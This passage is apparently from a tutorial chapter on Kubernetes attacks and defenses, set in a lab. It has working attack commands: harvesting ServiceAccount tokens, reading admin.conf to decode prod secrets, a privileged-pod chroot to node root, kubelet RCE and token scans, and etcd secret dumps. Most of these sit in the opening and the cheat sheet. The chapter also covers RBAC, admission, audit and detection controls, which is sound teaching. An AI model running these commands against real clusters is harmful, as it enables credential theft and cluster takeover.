# --- now root on the WORKER node ---
# Harvest every pod's token on this node:
find /var/lib/kubelet/pods -name token -path '*serviceaccount*' -exec sh -c 'echo "== $1"; cat "$1"; echo' _ {} \;
```

Because a `kind` control-plane node also runs the API server, if `evil-pod` lands on (or you re-target) the control-plane node, `/etc/kubernetes/admin.conf` is cluster-admin:

```bash
cat /host/etc/kubernetes/admin.conf > /tmp/admin.conf   # from inside the breakout pod
KUBECONFIG=/tmp/admin.conf kubectl get secret db-creds -n prod -o jsonpath='{.data.password}' | base64 -d
# -> S3cr3t-prod-DB     (full cross-namespace secret access = game over)
```

You have gone from a shell in one `dev` pod to reading `prod` secrets as cluster-admin. **Tear down:** `kind delete cluster --name pwnlab`.

---

## Part 9: Detection & Defense Angle

Everything above is stopped or caught by a handful of controls. This is the consolidated defensive section; wire these into any cluster you own.

### 9.1 RBAC least privilege

- **Never bind `cluster-admin`** to application ServiceAccounts. Audit: `kubectl get clusterrolebindings -o json | jq '.items[] | select(.roleRef.name=="cluster-admin") | .subjects'`.
- Prefer namespaced Roles over ClusterRoles. Grant specific verbs, not `*`.
- Eliminate `escalate`, `bind`, `impersonate`, and `create` on `pods/*`, `serviceaccounts/token`, and RBAC objects from anything that isn't a controller.
- Set `automountServiceAccountToken: false` by default; opt in per-workload.

### 9.2 Admission control — the strongest single control

**Pod Security Admission (PSA)** is built in (GA since 1.25). Label namespaces to enforce a level:

```bash
kubectl label ns dev \
  pod-security.kubernetes.io/enforce=restricted \
  pod-security.kubernetes.io/warn=restricted
```

`restricted` forbids `privileged`, `hostPID`/`hostNetwork`/`hostIPC`, `hostPath` volumes, running as root, and added capabilities — which single-handedly kills the Part 6.1 breakout. For policy beyond the three PSA levels, use **OPA/Gatekeeper** or **Kyverno**. Example Kyverno policy to block privileged pods:

```yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata: {name: disallow-privileged}
spec:
  validationFailureAction: Enforce
  rules:
  - name: no-privileged
    match: {any: [{resources: {kinds: [Pod]}}]}
    validate:
      message: "Privileged containers are not allowed"
      pattern:
        spec:
          containers:
          - =(securityContext):
              =(privileged): "false"
```

### 9.3 Audit logging — how you catch the attack

The API server can log every request. A minimal policy that records metadata for everything and full bodies for secret/RBAC changes:

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
- level: RequestResponse
  resources:
  - group: "" 
    resources: ["secrets"]
  - group: "rbac.authorization.k8s.io"
    resources: ["roles","rolebindings","clusterroles","clusterrolebindings"]
- level: Metadata            # everything else at metadata level
```

**High-signal detections** to alert on:

| Signal | Why it matters |
|--------|----------------|
| `create` on `clusterrolebindings` referencing `cluster-admin` | Self-grant escalation (Part 6.3) |
| Requests with `impersonate` headers / `system:masters` group | Impersonation escalation (Part 6.4) |
| Pod create with `privileged`, `hostPID`, or `hostPath: /` | Node breakout attempt (Part 6.1) |
| `exec`/`attach` subresource calls to kube-system pods | Priv-pod exec (Part 6.5) |
| Anonymous (`system:anonymous`) requests that are *allowed* | Broken anonymous RBAC |
| `list secrets` across many namespaces by an app SA | Token/secret harvesting |
| Direct kubelet `:10250` `/run` `/exec` from odd sources | kubelet abuse (Part 7.1) |

Runtime detection tools from the container chapter apply here: **Falco** ships Kubernetes-aware rules (e.g. "shell in container", "sensitive mount", "contact K8s API server from container") and reads the audit log via its k8saudit plugin. Pair audit logs with a NetworkPolicy default-deny so pods cannot freely reach `kubernetes.default.svc` or `169.254.169.254`.

### 9.4 Network and secret hardening

- **Default-deny NetworkPolicy** per namespace; explicitly allow only needed egress. This blocks token exfiltration and metadata-endpoint pivots.
- **Encryption at rest** for etcd (KMS-backed `EncryptionConfiguration`).
- External secret managers (Vault, AWS/GCP/Azure secret stores via CSI or External Secrets Operator) so nothing sensitive sits in etcd as base64.
- Block pod access to the cloud metadata endpoint (hop-limit or NetworkPolicy) to stop the IMDS pivot.

---

## Part 10: kube-hunter and kube-bench from Scratch

Two tools bracket the offense/defense split: **kube-hunter** actively probes a cluster like an attacker; **kube-bench** audits a node against the CIS Kubernetes Benchmark like a defender. Learn both.

### 10.1 kube-hunter (offensive discovery)

**What it is:** an open-source scanner (originally Aqua Security) that hunts for Kubernetes attack surface — exposed API servers, kubelets, dashboards, etcd, token mounts — and reports found *vulnerabilities*, not just open ports. It has three scan modes: remote (scan an IP/range from outside), internal (scan from the network it runs on), and **pod** (run it *as a pod* to see what an attacker with a foothold sees).

```bash
# Run in a container against a target you own
docker run -it --rm aquasec/kube-hunter --remote NODE_IP     # remote scan
docker run -it --rm aquasec/kube-hunter --cidr 10.0.0.0/24   # sweep a subnet
# The most instructive mode — as a pod inside the cluster:
kubectl run kube-hunter --rm -it --image=aquasec/kube-hunter -- --pod
```

Representative (trimmed) findings output:

```
Nodes
+-------------+---------------+
| TYPE        | LOCATION      |
+-------------+---------------+
| Node/Master | 10.244.0.1    |
+-------------+---------------+

Vulnerabilities
+----------------+----------------------+----------------------------+
| LOCATION       | CATEGORY             | VULNERABILITY              |
+----------------+----------------------+----------------------------+
| 10.244.0.1:10250 | Remote Code Exec   | Anonymous kubelet enabled  |
| kubernetes.default | Access Risk      | SA token mounted in pod    |
| 10.244.0.1:6443  | Information Disc.  | K8s version disclosure     |
+----------------+----------------------+----------------------------+
```

`--active` enables *exploitation* checks (it will actually try the kubelet RCE) — only use it on ranges you own, and note it is intrusive.

### 10.2 kube-bench (defensive CIS audit)

**What it is:** a Go tool (Aqua Security) that checks whether a node's Kubernetes components are configured per the **CIS Kubernetes Benchmark** — the authoritative hardening checklist. It reads the actual flags on `kube-apiserver`, `kubelet`, `etcd`, and the config files, and grades each control PASS/FAIL/WARN with the exact remediation.

```bash
# Run as a Job so it can read the host's config files
kubectl apply -f https://raw.githubusercontent.com/aquasecurity/kube-bench/main/job.yaml
kubectl logs -f job/kube-bench
# Or directly on a node:
kube-bench run --targets master,node,etcd,policies
```

Representative output:

```
[INFO] 1 Control Plane Security Configuration
[PASS] 1.2.1 Ensure that the --anonymous-auth argument is set to false
[FAIL] 1.2.16 Ensure that the --encryption-provider-config is set
[WARN] 1.2.21 Ensure that the --audit-log-path argument is set
...
== Remediations ==
1.2.16 Edit the API server pod spec /etc/kubernetes/manifests/kube-apiserver.yaml
       and set --encryption-provider-config=/etc/kubernetes/enc.yaml
== Summary == 42 checks PASS, 6 FAIL, 9 WARN
```

Each FAIL maps to a concrete flag fix. Running kube-bench, fixing FAILs, then re-running until the control-plane and node sections are clean is the fastest way to close the misconfigurations this chapter exploits.

| Tool | Side | What it answers |
|------|------|-----------------|
| kube-hunter | Offense/recon | "What attack surface is exposed and exploitable?" |
| kube-bench | Defense/audit | "Which CIS hardening controls are failing?" |
| kubeletctl | Offense | "Can I exec/steal tokens via the kubelet?" |
| `kubectl auth can-i --list` | Both | "What can this identity actually do?" |
| Falco + audit logs | Defense/detection | "Is an attack happening right now?" |

---

## Part 11: Managed Clusters (EKS / GKE / AKS) Differences

Most real clusters are managed, which changes the attack surface in useful ways:

- **The control plane is the provider's problem.** You cannot reach etcd or the raw API server flags; the API server is exposed as an HTTPS endpoint with cloud IAM/OIDC auth in front. So `--anonymous-auth` and etcd attacks are largely off the table — but RBAC, token theft, and pod-escape attacks are **identical**.
- **IRSA / Workload Identity blurs cluster and cloud identity.** On EKS, a pod's SA can be mapped to an AWS IAM role (IRSA); on GKE, to a GCP service account (Workload Identity); on AKS, to an Entra managed identity. Steal that pod's token or hit its metadata path and you may pivot from the cluster straight into the cloud account. **This is the highest-impact managed-cluster escalation** — a compromised pod's cloud role can often read S3/GCS buckets, other secrets, or assume further roles.
- **The node IAM role** is reachable at `169.254.169.254` from any pod without IMDS restrictions. On EKS the node role can frequently pull ECR images and read some SSM parameters; worse if over-scoped. Blocking pod access to IMDS (or enforcing IMDSv2 with hop limit 1) is the key mitigation.



**Bug-bounty angle:** on managed clusters, an app-level SSRF or RCE that lets you read the pod token or reach IMDS is a legitimate, frequently-rewarded finding — you demonstrate cluster or cloud pivot without ever touching the provider's control plane.

---

## Part 12: Common Mistakes & How to Avoid Them

- **Binding `cluster-admin` "just to make it work."** CI systems, dashboards, and operators end up cluster-admin constantly. Scope them down and re-test.
- **Forgetting `automountServiceAccountToken: false`.** Every pod that doesn't call the API server is handing attackers a free credential. Turn it off by default.
- **Leaving `pods/exec` or `create pods` in developer Roles.** These are escalation primitives, not conveniences — pair them with strict PSA if unavoidable.
- **No admission control.** Without PSA/OPA/Kyverno, a single `create pods` grant is node root. Enforce `restricted` where you can.
- **Secrets in etcd unencrypted.** Base64 is not encryption. Enable encryption at rest and prefer external secret stores.
- **Exposed kubelet or dashboard.** Never expose 10250/10255 or the Kubernetes Dashboard without auth; the dashboard's SA has historically been over-privileged.
- **Treating anonymous-auth as harmless.** It's only harmless if RBAC grants `system:anonymous`/`system:unauthenticated` nothing — verify with `kubectl auth can-i --list --as=system:anonymous`.
- **No audit log.** If you aren't logging API requests, you cannot detect any of the escalation paths in Part 6. Turn it on and alert on the Part 9.3 signals.
- **NetworkPolicy left wide open.** Default-allow lets a popped pod reach the API server, metadata, and every other pod. Default-deny and allowlist.

---

## Part 13: Final Revision / Summary

- Kubernetes is **one API server** guarded by **Authn → Authz (RBAC) → Admission**. Everything is an object; every action is an authorized REST call.
- The four network doors: **API server 6443, kubelet 10250/10255, etcd 2379, metadata 169.254.169.254.**
- Pods run **as ServiceAccounts**; their **token is mounted at `/var/run/secrets/kubernetes.io/serviceaccount/token`** and is the credential attackers steal first. `automountServiceAccountToken: false` denies it.
- Enumerate any identity with **`kubectl auth can-i --list`** (or the SelfSubjectRulesReview REST endpoint from inside a pod).
- **RBAC escalation primitives:** `create pods` (→ privileged/hostPath pod → node root), `list secrets` (→ steal stronger tokens), `escalate`/`bind` (→ self-grant cluster-admin), `impersonate` (→ `system:masters`), `pods/exec` (→ exec into privileged pods).
- **Admission control (PSA `restricted`, OPA/Gatekeeper, Kyverno) is the strongest single defense** — it kills the pod-escape path outright. **Audit logging + Falco** is how you detect the rest.
- **kube-hunter** finds exposed/exploitable surface (offense); **kube-bench** grades a node against the **CIS Benchmark** (defense); **kubeletctl** weaponises the kubelet.
- On **managed clusters**, the control plane is hardened for you, but RBAC, token theft, pod escape, and especially **IRSA/Workload-Identity cloud pivots** remain fully in play.

---

## Part 14: Cheat Sheet / Quick Reference

**Enumeration (from a compromised pod)**

```bash
SA=/var/run/secrets/kubernetes.io/serviceaccount
cat $SA/token ; cat $SA/namespace ; env | grep KUBERNETES
cut -d. -f2 < $SA/token | base64 -d | jq .          # decode the JWT
kubectl auth can-i --list                            # my permissions
kubectl auth can-i --list --as=system:anonymous      # anonymous permissions
```

**Recon with kubectl**

```bash
kubectl get pods,secrets,serviceaccounts -A
kubectl get clusterrolebindings -o wide | grep cluster-admin
kubectl get pods -A -o json | jq -r '.items[]|select(.spec.containers[].securityContext.privileged==true)|.metadata.name'
kubectl config view --raw                             # dump creds from a stolen kubeconfig
```

**Escalation snippets**

```bash
kubectl auth can-i '*' '*' --as-group=system:masters              # impersonation check
kubectl get secrets -A -o json | jq -r '.items[]|select(.type=="kubernetes.io/service-account-token")|.data.token|@base64d'
kubectl apply -f evil-pod.yaml && kubectl exec -it pause-debug -- chroot /host sh   # node root
```

**kubelet / etcd**

```bash
kubeletctl pods -s NODE_IP ; kubeletctl scan rce -s NODE_IP ; kubeletctl scan token -s NODE_IP
curl -sk https://NODE_IP:10250/pods
ETCDCTL_API=3 etcdctl --endpoints=https://127.0.0.1:2379 --cacert ... --cert ... --key ... get /registry/secrets --prefix --keys-only
```

**Scanning / hardening**

```bash
kubectl run kube-hunter --rm -it --image=aquasec/kube-hunter -- --pod     # attacker's-eye scan
kubectl apply -f https://raw.githubusercontent.com/aquasecurity/kube-bench/main/job.yaml   # CIS audit
kubectl label ns dev pod-security.kubernetes.io/enforce=restricted        # PSA
```

**Key ports:** 6443 API · 10250/10255 kubelet · 2379/2380 etcd · 169.254.169.254 metadata
**Token path:** `/var/run/secrets/kubernetes.io/serviceaccount/token`
**Dangerous verbs:** `create pods`, `pods/exec`, `list secrets`, `escalate`, `bind`, `impersonate`

---

## Part 15: Practice Labs & Resources

Train each skill in this chapter on a range built for it:

- **kube-goat** (madhuakula/kubernetes-goat) — the definitive deliberately-vulnerable cluster. Scenarios map almost 1:1 to this chapter: sensitive-keys-in-code, SSRF to metadata, container escape, RBAC least-privilege, kubelet exploitation, and Secrets in etcd. Deploy on kind/minikube and work every scenario.
- **CloudGoat** (Rhino Security Labs) — the `ecs_takeover` and EKS scenarios cover the managed-cluster + IRSA cloud-pivot path from Part 11.
- **KubeCon / CTF challenges** — the CNCF-adjacent "Kubernetes CTF" and Control Plane's "Simulator" (`kubesim`) drop you into broken clusters and score your escalation.
- **PortSwigger / HackTheBox / TryHackMe** — HTB has several container/Kubernetes-themed boxes; TryHackMe's "Kubernetes" and "Cloud" rooms cover token theft and RBAC. Search for kubelet-exploitation and RBAC-escalation rooms specifically.
- **CIS Kubernetes Benchmark** (cisecurity.org) — read it alongside a live kube-bench run; every FAIL you fix removes an attack from this chapter.
- **flAWS / flAWS2** — cloud (not K8s) but excellent for the IMDS/metadata pivot mechanics that feed cluster-to-cloud escalation.
- **Official docs to internalise:** the Kubernetes RBAC docs, the Pod Security Standards page, and the "Securing a Cluster" task page — these are the authoritative source for every control in Part 9.

Practice the full chain end-to-end at least once on `kube-goat`: get a shell, read a token, enumerate with `can-i --list`, escalate via a misconfigured verb, escape a pod to the node, and read a cross-namespace Secret. Once that loop is muscle memory, you understand Kubernetes attack and defense at the level this chapter is aiming for. The next chapter moves outward again — to **serverless, CI/CD and supply-chain attacks**, where the compromise often begins in the pipeline that builds these very images.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/cloud-security/07-kubernetes-attacks-rbac-pods-secrets-kube-hunter-and-kube-bench), with comments and the latest edits.*
